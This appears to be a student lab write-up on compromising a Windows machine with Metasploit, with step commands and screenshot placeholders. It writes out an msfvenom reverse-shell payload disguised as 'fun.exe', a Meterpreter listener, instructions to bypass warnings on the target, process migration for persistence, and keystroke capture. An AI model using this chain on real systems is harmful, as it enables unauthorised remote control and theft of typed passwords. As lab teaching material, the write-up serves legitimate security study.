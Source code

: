 # Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## EXECUTION STEPS AND ITS OUTPUT:
Find the attackers ip address using ifconfig

## OUTPUT:
![image](https://github.com/user-attachments/assets/6305f05a-7760-46cc-86e0-a02b10489d73)

Create a malicious executable file fun.exe using msenom command msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe

## OUTPUT:
![image](https://github.com/user-attachments/assets/e6878cd8-282f-46db-89e8-36944721bad7)

copy the fun.exe into the apache /var/www/html folder

## OUTPUT:
![image](https://github.com/user-attachments/assets/116de4cc-d9ba-4b5a-99ec-da62e7705f77)

Start apache server sudo systemctl apache2 start

## OUTPUT:
![image](https://github.com/user-attachments/assets/a19784f1-a936-4564-905b-696a26f92904)

Check the status of apache2

## OUTPUT:

![image](https://github.com/user-attachments/assets/31b20403-1a34-422e-9c8b-204521d0ab2d)

Invoke msfconsole:
## OUTPUT:
![image](https://github.com/user-attachments/assets/1723f84a-9593-4820-9684-60a7730b0bf4)

Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.

## OUTPUT:
![image](https://github.com/user-attachments/assets/c5ae6ff7-f89b-4384-a542-57cb1d59c4df)

Starting a command and control Server use multi/handler set PAYLOAD windows/meterpreter/reverse_tcp set LHOST 0.0.0.0 exploit

## OUTPUT:
![image](https://github.com/user-attachments/assets/a01cffbc-6ec1-4eaa-8c7d-dcc54cf499bf)


On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine: http://192.168.1.2/fun.exe The file "fun.exe" downloads.

## OUTPUT:
![image](https://github.com/user-attachments/assets/e4ad8749-3d43-489d-a527-1acc52ce46e6)

Bypass any warning boxes, double-click the file, and allow it to run.

![image](https://github.com/user-attachments/assets/f45d4aa4-c18c-4876-9e52-b32c9be161b4)

On kali give the command exploit

## OUTPUT:

![image](https://github.com/user-attachments/assets/bfcdcfa2-78d6-49ab-bce5-1ac2ef6051c7)

To see a list of processes, at the meterpreter > prompt, execute this command: ps ⇒ can see the fun.exe process running with pid 1156

## OUTPUT:

![image](https://github.com/user-attachments/assets/e61c6efb-19f6-4dfd-bc69-03d7fb96eeb5)

The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost. To become more persistent, we'll migrate to a process that will last longer. Let's migrate to the winlogon process. At the meterpreter > prompt, execute this command: migrate -N explorer.exe at meterpreter > prompt, execute this command: netstat A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below. Notice the "PID/Program name" value for this connection, which is redacteD

## OUTPUT:

![image](https://github.com/user-attachments/assets/1f093b33-938d-47bb-b66e-fac51a36aa8c)


Post Exploitation The target is now owned. Following are meterpreter commands for key capturing in the target machine keyscan_start Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.


## OUTPUT:
![image](https://github.com/user-attachments/assets/8c395ebf-ff86-4fe0-98ae-9aa86832f14a)


![image](https://github.com/user-attachments/assets/6da0cb33-d3f9-4062-8830-bb8c51d4bc5d)

keyscan_dump Shows the keystrokes captured so far

## OUTPUT:
![image](https://github.com/user-attachments/assets/8ba5ca15-62d5-4197-a237-428042056b97)

## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.
